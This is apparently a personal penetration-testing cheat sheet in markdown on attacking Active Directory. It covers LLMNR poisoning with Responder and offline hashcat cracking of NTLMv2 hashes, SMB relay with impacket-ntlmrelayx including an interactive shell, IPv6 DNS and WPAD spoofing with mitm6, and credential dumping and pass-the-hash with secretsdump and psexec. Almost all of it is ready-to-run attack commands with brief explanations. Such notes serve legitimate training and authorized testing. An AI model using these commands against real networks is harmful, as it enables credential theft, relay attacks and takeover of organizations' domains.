




# Active Directory
## LLMNR Poisoning
- Link Local Multicast Name Resolution (LLMNR)
- Used to identify hosts when DNS fails to do so.
- Previously NBT-NS.
- Key flaw is that the services utilize a user's username and NTLMv2 hash when appropriately responded to.
- With a MitM, you can observe the broadcast for people looking to connect to a share and crack the hash offline.

> **Note**
> ***
> You must be on the same network to capture this traffic.

1. To run the process:
````bash
sudo responder -I {interface} -dwP
````


2. Add hash to a .txt file.

3. Crack the hashes:
 ````bash
 hashcat -m 5600 hashes.txt /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/OneRuleToRuleThemAll.rule
 ````
> **Tip**
> ***
> Its better to run hashcat on bare metal.
> To find what code to use grep the code, for example
> `hashcat --help | grep NTLM`

## SMB Relay
- Instead of cracking hashes we can relay those hashes to specific machines and potentially gain access.
- SMB signing must be disabled or not enforced.
    - You'll see this as an option with your NMAP script.

1. To start you need to adjust your responder.conf file to allow for this attack.
````bash
sudo vim /etc/responder/Responder.conf
````
- Set SMB and HTTP to off on lines 5 and 12 respectively.


2. Run impacket. This will start similar to responder.
````bash
impacket-ntlmrelayx -tf targets.txt -smb2support -c "whoami" 
````
OR to gain an interactive shell run:
````bash
impacket-ntlmrelayx -tf targets.txt -smb2support -i
````

> **Note**
> ***
> I previously created a file with the IP addresses of my targets and ran the command from that same folder.



## IPv6 Attack
- This works off most computers using IPv4, but having IPv6 turned on. With no legitamate server for DNS on IPv6 we spoof that DNS to steal NTLM hashes then pass that to the DC.
- Only run this in small sprints, it can disable a network.

1. Setup ntlmrelayx.
````bash
impacket-ntlmrelayx -6 -t ldaps://{ip of DC} -wh fakewpad.{domain.local} -l {lootme}
````
> **Note**
> ***
> -6 is for ipv6\
> -t is for target\
> -wh Enable serving a WPAD file for Proxy Authentication attack, setting the proxy host to the one supplied. The Web Proxy Auto-Discovery (WPAD) Protocol is a method used by clients to locate the URL of a configuration file using DHCP and/or DNS discovery methods. Once detection and download of the configuration file is complete, it can be executed to determine the proxy for a specified URL.\
> -l Loot directory in which gathered loot such as SAM dumps will be stored. This is the fake name you want to create to find later

> **Warning**
> If you have issues, try reinstalling impacket using pimpmykali

2. Run mitm6 (this needs to be installed first)
````bash
sudo mitm6 -i eth0 -d {domain.local}
````

> **Note**
> ***
> By default mitm6 used my production interface so make sure you change the interface to the one that the DC is on.

3. Review your lootme file in the directory you ran the attack



## Impacket

- Impacket is a suite of tools that can help you get hashes and pass hashes. Read the full manual for more information
- With the new update, commands start with `impacket-{command}`. To see a full list type `impacket-[TAB][TAB]`

### Get hashes if you have one password
- If you have one password you can use impacket to get hashes for the other accounts and then use those hashes to pass the hash, IE for the administrator. `impacket-secretsdump {domain}.local/{username}:'{Password}'@{IP}`

### Pass the Hash
- Pash the hash with `impacket-psexec [username]@[ip] -hashes [hash]`